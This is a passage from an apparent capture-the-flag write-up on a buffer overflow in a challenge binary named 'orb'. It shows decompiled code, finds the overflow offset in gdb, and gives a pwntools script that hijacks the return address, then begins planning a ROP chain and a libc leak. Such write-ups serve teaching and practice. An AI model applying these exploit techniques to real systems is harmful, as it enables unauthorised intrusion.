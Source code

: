 ```c
  write(1,&DAT_00402008,0xeb);
  read(0,&buffer,256);
  write(1,"\nThis spell does not seem to work..\n\n",0x26);
  return 0;
}

```

* Running the binary, we note that the binary accepts our input and then prints `This spell does not seem to work`
![ㅤ](../../../images/PlayCyber/20240130120313.png)

* We can now open the binary in `gdb` for debugging. Since the application accepts user input, we craft an input of `300 bytes` and give it to the program 
![ㅤ](../../../images/PlayCyber/20240130120717.png)
* After a while, the program segfaults indicating a probable buffer overflow. We can then calculate the offset to determine after how many bytes the buffer overflow occurs
![ㅤ](../../../images/PlayCyber/20240130120619.png)
* Now that we know that the offset is `40`, we can test if we can overwrite the return address and  redirect the program's execution to other functions e.g main
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#  @author: zerofrost
from pwn import *
from sys import argv as arguments
filename="./orb_patched"
context.binary = elf = e=ELF(filename)
target=process([filename])

offset=40
payload=b"A"*offset
payload+=p64(elf.sym['main'])


x=(target.recvuntil("Cast spell: "))
print(x.decode())
target.sendline(payload)
target.interactive()

```

![ㅤ](../../../images/PlayCyber/20240130121601.png)

* From the above image, we successfully managed to redirect the program's execution back to main. We can try to build a rop chain to redirect the program's execution to other locations e.g libc functions. But before that, we need to find a way to leak the libc base.
* Checking some of the functions in the binary, we find that the write function is present , which we can use to leak memory address in the `bss` section of the binary
![ㅤ](../../../images/PlayCyber/20240130121814.png)
